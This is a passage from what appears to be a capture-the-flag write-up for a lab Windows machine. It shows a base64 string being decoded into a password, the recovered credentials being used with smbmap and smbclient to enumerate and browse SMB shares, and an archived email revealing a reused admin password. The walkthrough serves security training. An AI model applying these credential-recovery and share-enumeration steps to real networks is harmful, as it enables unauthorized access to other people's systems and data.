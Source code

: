 this looks to be base64 encoded:
```
echo 'clk0bjVldmE=' | base64 --decode                                         
rY4n5eva
```

creds:
```
r.thompson:rY4n5eva
```
we can keep chopping away at ldap but i want to check smb:
```
smbmap -H 10.10.10.182
```
no access... but with newly found creds:

```
smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
```
```
 IP: 10.10.10.182:445	Name: 10.10.10.182        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	Audit$                                            	NO ACCESS	
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY	
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share 
```
lovely!
Data seems legit, lets take a peek

```
smbclient -N //10.10.10.182/Data -U 'r.thompson' --password 'rY4n5eva'
```
inside:
```
 Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020
```

i only have permissions to read IT:
```
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020
```

inside Email Archives i found this html file:
```
We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). 
```
